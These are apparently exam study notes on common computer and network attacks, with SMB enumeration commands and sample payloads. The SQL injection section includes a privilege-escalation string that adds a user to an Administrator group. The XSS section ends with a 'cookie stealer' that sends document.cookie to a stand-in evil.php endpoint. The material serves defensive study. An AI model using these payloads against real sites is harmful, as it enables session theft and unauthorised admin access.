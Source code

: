 # Common Attacks

## Exam Outcome

Demonstrate a broad knowledge of computer and network attacks

## Common Attacks

## 1. Recon

## 2. Scanning

### SMB Sessions

View SMB sessions (outbound)

```
net use
```

View SMB sessions (inbound):

```
net session
```

Establishing an SMB session:

```
net use \\%COMPUTERNAME% /u:[account]
```

Delete an SMB session:

```
net use \\%COMPUTERNAME% /del
```

Using the enum tool to pull user, password policy, and grup info:

```
enum -u [user] -p [password] -U [target IP]
enum -u [user] -p [password] -P [target IP]
enum -u [user] -p [password] -G [target IP]
```

### War Dialing

Dialing a sequence of telephone numbers attempting to locate a modem. Popular tool for doing so is HD Moore's WarVOX.

### War Driving

The act of performing wireless LAN discovery.

## 2.  Exploitation

Exploitation (per 504) is broken down into 3 sections:

Gaining Access
Web App Attacks
Denial of Service

### IP Address Spoofing

### Passsive and Active Sniffing

### Session Hijacking with Ettercap

Session hijacking synthesizes sniffing and spoofing.

### DNS Cache Poisoning

### Buffer Overflows

Allows an attacker to execute arbitrary commands on your machine.

### Format String Attacks

Related to manipulating programs that misuse printf and related commands to read arbitrary information from memory.



















Source: 401.2, pg. 214

- Malicious Code
- Remote Maintenance
- Denial of Service
- Brute Force
- Browsing
- Race Conditions
- Alteration of Code
- Rootkits

### Smurf Attack (Using Broadcast Address)

Source: 401.1, pg. 77

Sends spoofed ICMP echo requests (also known as "ping") to a network's broadcast address. The spoofed machine gets many, many responses, consuming most or all of its bandwidth.

### SQL Injection

SQL Injection is the most common webbased attack. It is use when the hacker places commands which can trigger valid SQL queries within a field not typically associated with SQL commands. Fields like "Username" and "Password". But these types of command be inserted into any DB style entry field.

1. List Field Values #1:
An attacker may try the following to see if they can get a list of values from a particular field, user, pass, version, email, etc.
```
'0 OR 1=1'
```

Equivalent to the SQL Command:
'SELECT * FROM Users WHERE UserId = 0 OR 1=1;''

2. List Field Values #2:
An attacker may try the following to get a list of values from a particular field, user, pass, version, email, etc.
```
" or ""="
```

Equivalent to the SQL Command:
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""

3. Elevate privileges
```
"john'; INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'"
```

Equivalent to the SQL Command:
SELECT user_id, username, password_hash FROM users WHERE username = 'john'; 
INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'

### XSS Attacks

1. Black Box Testing

Enter the following in the url:

```
hxxp://www.site.com/index.php?name=<script>alert(123)</script>
```

2. Search Test
If the site has a serach field without proper sanitization:
```
hxxp://www.site.com/search?source=“><script>alert(123)</script>
```

3. One Error Test
If the site has a mouseover or onerror capability
```
hxxp://www.site.com/index.php?name=<b onmouseover=alert('Wufff!')>click me!</b>
```
```
hxxp://www.site.com/index.php?name=<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

4. Cookie Stealer
```
hxxp://www.site.com/index.php?name=<SCRIPT type="text/javascript"> var adr = '../evil.php?cakemonster=' + escape(document.cookie);</SCRIPT>
```

5. Hide from javascript
```
hxxp://www.site.com/index.php?name=<IMG SRC=j&#X41vascript:alert(123)>
```
